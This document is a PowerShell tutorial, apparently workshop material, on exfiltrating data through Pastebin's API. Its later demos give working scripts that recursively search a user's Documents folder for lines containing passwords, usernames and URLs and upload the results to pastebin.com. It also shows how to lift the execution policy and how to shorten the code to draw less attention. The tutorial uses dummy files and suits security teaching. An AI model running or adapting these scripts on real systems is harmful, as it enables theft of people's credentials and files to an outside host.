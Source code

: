 ```yaml
---
layout: default
title: Data Exfiltration using Pastebin
nav_order: 6
---
```

# First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

You might have to launch powershell as administrator first to change the set-executionpolicy to "unrestricted"

```powershell
set-executionpolicy unrestricted
```

1. Observe the results. You will see an URL
2. Visit this URL

```powershell
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```

You might encounter an error related to the "internet explorer engine", if that's the case: launch internet explorer and click through the initial setup.

![Internet Explorer first setup](/images/IE11.png)

This should fix your issue.

## Preparing a more advanced use of Pastebin
Thus far, our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃.

For this we need to setup our “userkey”​

This means we will use 2 keys​: 
1. Our dev key, which we already have​.
2. Our user key, which still needs creation.

### Userkey creation

Create a new file called `get-apiuserkey.ps1`, using the code below.
```powershell

$DevKey     = "PUT-DEV-KEY-HERE"
$Username   = "PUT-PASTEBIN-USERNAME-HERE"
$Password   = "PUT-PASTEBIN-PASSWORD-HERE"
$PasteBinLogin = "https://pastebin.com/api/api_login.php"
$Body = @{ 
    api_dev_key = $DevKey;
    api_user_name	= $Username;
    api_user_password = $Password;
    }

Invoke-WebRequest -Uri $PasteBinLogin -UseBasicParsing -Body $Body -Method Post -OutFile Api_user_key.txt
```
- Fill in the 3 required variables at the top.
- Run the script from the terminal.
- Your userkey is saved in Api_user_key.txt
- Add this key to logindata.ps1


Once this is done… we’re cooking!

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` put these 2 files in your documents folder: `C:\Users\$env:username\Documents`

password.txt has the following contents
```Powershell

PUT THIS FILE IN C:\Users\$env:username\Documents
I do silly things like sometimes putting passwords in files.

```
secret.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Second demo
Create a new file called "new-pastebin2.ps1" and copy paste the following data in it:
```Powershell

#Demo 2, let's grab some passwords from local files!
. .\logindata.ps1
$Content    =   ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path
$Title      =   "pastebin2"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Execute new-pastebin2.ps1 from the terminal. If all goes well, you will have this pastebin under your personal account on the pastebin.com website.
But there seems to be a problem?

# Third demo

Powershell stores the data in an object. Which is not bad but invoke-webrequest doesn’t understand it and thus the parsing is bad.
Let’s convert the data to a format which will work.
Create new-pastebin3.ps1 and observe the difference with new-pastebin2.ps1
```Powershell
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path)
$Title      =   "pastebin3"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```


Now launch new-pastebin3.ps1 from the terminal.
Observe the results in your pastebin.com account

# Fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-pastebin4.ps1 and new-pastebin5.ps1

new-pastebin4.ps1
```Powershell
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin4"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
new-pastebin5.ps1
```Powershell
$DevKey="PUT-DEVKEY-HERE";$UserKey="PUT-USER-KEY-HERE"
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin5"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Observe the concatenation done in those 2 files.
What is the difference between 4 and 5? Why would this be?
